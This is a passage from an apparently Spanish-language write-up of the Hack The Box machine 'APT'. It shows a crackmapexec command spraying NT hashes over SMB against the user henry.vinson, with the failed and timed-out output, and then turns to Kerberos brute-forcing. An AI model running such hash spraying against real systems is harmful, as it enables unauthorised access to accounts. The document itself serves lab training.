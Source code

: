 No se da el caso para ninguno

Pruebo a hacer un hash spraying por SMB por si se da el caso de que otro hash coincida con este usuario, pero la máquina me bloquea

```null
crackmapexec smb APT  -u 'henry.vinson' -H hashesNT
SMB         APT             445    APT              [*] Windows Server 2016 Standard 14393 x64 (name:APT) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         APT             445    APT              [-] htb.local\henry.vinson:2b576acbe6bcfda7294d6bd18041b8fe STATUS_LOGON_FAILURE 
SMB         APT             445    APT              [-] htb.local\henry.vinson:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE 
SMB         APT             445    APT              [-] htb.local\henry.vinson:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE 
SMB         APT             445    APT              [-] htb.local\henry.vinson:b300272f1cdab4469660d55fe59415cb STATUS_LOGON_FAILURE 
SMB         APT             445    APT              [-] htb.local\henry.vinson:72791983d95870c0d6dd999e4389b211 STATUS_LOGON_FAILURE 
SMB         APT             445    APT              [-] htb.local\henry.vinson:9ea25adafeec63e38cef4259d3b15c30 STATUS_LOGON_FAILURE 
SMB         APT             445    APT              [-] htb.local\henry.vinson:3ae49ec5e6fed82ceea0dc2be77750ab STATUS_LOGON_FAILURE 
SMB         APT             445    APT              [-] htb.local\henry.vinson:531c98e26cfa3caee2174af495031187 STATUS_LOGON_FAILURE 
SMB         APT             445    APT              [-] htb.local\henry.vinson:fde29e6cb61b4f7fda1ad5cd2759329d STATUS_LOGON_FAILURE 
SMB         APT             445    APT              [-] htb.local\henry.vinson:51d368765462e9c5aebc456946d8dc86 STATUS_LOGON_FAILURE 
SMB         APT             445    APT              [-] htb.local\henry.vinson:273c48fb014f8e5bf9e2918e3bf7bfbd STATUS_LOGON_FAILURE 
SMB         APT             445    APT              [-] htb.local\henry.vinson:98590500f99a1bee7559e97ad342d995 STATUS_LOGON_FAILURE 
SMB         APT             445    APT              [-] htb.local\henry.vinson:10cf01167854082e180cf549f63c0285 STATUS_LOGON_FAILURE 
SMB         APT             445    APT              [-] htb.local\henry.vinson:813f9d0988b9242eec1e45907344b591 STATUS_LOGON_FAILURE 
SMB         APT             445    APT              [-] htb.local\henry.vinson:6149000a4f3f7c57642cbee1ea70c3e1 STATUS_LOGON_FAILURE 
SMB         APT             445    APT              [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         APT             445    APT              [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         APT             445    APT              [-] Connection Error: The NETBIOS connection with the remote host timed out.
^C

[*] Shutting down, please wait...
```

Por tanto, tengo que aplicar fuerza bruta por Kerberos y no SMB

Kerbrute no contempla aplicar fuerza bruta por hashes NT, pero encontré un issue en Github, en el que se comentaba acerca de otra herramienta que me puede servir, aunque no está del todo funcional
